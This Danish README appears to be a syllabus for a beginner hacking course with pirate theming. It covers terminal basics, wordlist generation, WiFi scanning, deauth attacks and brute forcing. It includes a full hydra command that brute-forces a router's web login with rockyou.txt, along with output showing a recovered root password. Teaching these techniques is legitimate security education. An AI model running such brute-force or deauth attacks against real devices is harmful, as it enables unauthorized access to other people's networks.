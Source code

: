 # pirathak
[![CC BY-NC-SA 4.0][cc-by-nc-sa-shield]][cc-by-nc-sa]

### TODO

- ***Vestmolen***
   - Skibsværftets scripts -> mangler funktionalitet...!
- ***Østmolen***
   - Piratbaren -> er helt tom
   - Redningstjenesten -> er helt tom
   - Skibsproviantering -> er helt tom
   - Vaskeriet -> er helt tom

---
---

Uge 36/ 6.september: introduktion terminal, filer, directories
 - Piraterne skal kunne forstå filstruktur i homedirectory
 - Skal kunne bevæge sig i filstrukturen, komme hjem, lave filer, directories
 - Vise filer med cat, bruge less/ more

Uge 37/ 13.september: wordlists og brute force angreb
 - Grundlæggende forståelse af wifi teknologi
 - Forståelse af at generere ordlister med crunch
 - Kunne scanne efter wifi netværk
 - Kunne lave et brute force angreb

Brute force eksempel på at hacke et router interface (en http form) - det kan vi ikke gøre med wifi?!
```
hydra -l root -P ./rockyou.txt -t 9 -V -I 192.168.1.1 http-post-form "/cgi-bin/luci:username=^USER^&password=^PASS^:Invalid username"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-21 23:21:36
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 9 tasks per 1 server, overall 9 tasks, 14344399 login tries (l:1/p:14344399), ~1593823 tries per task
[DATA] attacking http-post-form://192.168.1.1:80/cgi-bin/luci:username=^USER^&password=^PASS^:Invalid username
[ATTEMPT] target 192.168.1.1 - login "root" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "abc123" - 10 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "nicole" - 11 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "daniel" - 12 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "babygirl" - 13 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "monkey" - 14 of 14344399 [child 4] (0/0)
[80][http-post-form] host: 192.168.1.1   login: root   password: princess
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-21 23:22:21
```

Uge 38/ 20.september: deauth angreb og generering af wordlists
 - Brug af f.eks. cewl (web scraping), cupp (profilering)
 - Brug af wifite


This work is licensed under a
[Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License][cc-by-nc-sa].

[![CC BY-NC-SA 4.0][cc-by-nc-sa-image]][cc-by-nc-sa]

[cc-by-nc-sa]: http://creativecommons.org/licenses/by-nc-sa/4.0/
[cc-by-nc-sa-image]: https://licensebuttons.net/l/by-nc-sa/4.0/88x31.png
[cc-by-nc-sa-shield]: https://img.shields.io/badge/License-CC%20BY--NC--SA%204.0-lightgrey.svg
